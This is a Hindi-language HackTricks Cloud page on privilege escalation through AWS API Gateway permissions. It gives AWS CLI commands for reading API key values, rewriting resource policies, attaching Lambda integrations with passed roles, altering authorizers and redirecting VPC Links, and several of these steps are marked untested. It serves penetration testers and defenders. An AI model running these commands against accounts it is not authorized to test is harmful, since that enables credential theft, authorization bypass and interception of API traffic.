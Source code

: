 # AWS - Apigateway Privesc

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## Apigateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

इस अनुमति के साथ आप प्रति क्षेत्र (per region) कॉन्फ़िगर किए गए APIs की API कुंजियाँ उत्पन्न कर सकते हैं।
```bash
aws --region <region> apigateway create-api-key
```
**संभावित प्रभाव:** आप इस तकनीक से privesc नहीं कर सकते हैं लेकिन आपको संवेदनशील जानकारी तक पहुँच सकती है।

### `apigateway:GET`

इस अनुमति के साथ आप प्रति क्षेत्र कॉन्फ़िगर किए गए APIs की जनरेट की गई API कुंजियाँ प्राप्त कर सकते हैं।
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**संभावित प्रभाव:** आप इस तकनीक से प्रिवेस्क नहीं कर सकते हैं लेकिन आपको संवेदनशील जानकारी तक पहुँच मिल सकती है।

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

इन अनुमतियों के साथ आप API की रिसोर्स पॉलिसी को संशोधित कर सकते हैं ताकि आप खुद को उसे कॉल करने की अनुमति दे सकें और API गेटवे के पास मौजूद संभावित पहुँच का दुरुपयोग कर सकें (जैसे कि एक कमजोर लैम्ब्डा को इन्वोक करना)।

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**संभावित प्रभाव:** आमतौर पर, आप इस तकनीक से सीधे प्रिवेस्क नहीं कर पाएंगे लेकिन आपको संवेदनशील जानकारी तक पहुँच मिल सकती है।

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
परीक्षण की आवश्यकता है
{% endhint %}

जिनके पास `apigateway:PutIntegration`, `apigateway:CreateDeployment`, और `iam:PassRole` अनुमतियाँ हैं, वे **मौजूदा API Gateway REST API में एक नया इंटीग्रेशन जोड़ सकते हैं जिसमें एक Lambda फ़ंक्शन होता है जिससे एक IAM रोल जुड़ा होता है**। फिर हमलावर **Lambda फ़ंक्शन को ट्रिगर कर सकता है ताकि मनमाना कोड निष्पादित कर सके और संभवतः IAM रोल से जुड़े संसाधनों तक पहुँच प्राप्त कर सके**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: Lambda फ़ंक्शन की IAM भूमिका से जुड़े संसाधनों तक पहुँच।

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
परीक्षण की आवश्यकता है
{% endhint %}

एक हमलावर जिसके पास `apigateway:UpdateAuthorizer` और `apigateway:CreateDeployment` अनुमतियाँ हैं, वह **मौजूदा API Gateway प्राधिकरणकर्ता को संशोधित कर सकता है** सुरक्षा जाँचों को दरकिनार करने के लिए या API अनुरोधों के समय मनमाने कोड को निष्पादित करने के लिए।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: सुरक्षा जांचों को दरकिनार करना, API संसाधनों तक अनधिकृत पहुंच।

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
परीक्षण की आवश्यकता है
{% endhint %}

एक हमलावर जिसके पास `apigateway:UpdateVpcLink` अनुमति है, वह **मौजूदा VPC Link को संशोधित करके उसे एक अलग Network Load Balancer की ओर इंगित कर सकता है, जिससे संभवतः निजी API ट्रैफिक को अनधिकृत या मालिशियस संसाधनों की ओर मोड़ा जा सकता है**।
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**संभावित प्रभाव**: निजी API संसाधनों तक अनधिकृत पहुँच, API ट्रैफिक का अवरोधन या व्यवधान।

<details>

<summary><strong> AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपनी हैकिंग तरकीबें साझा करें, HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके।

</details>
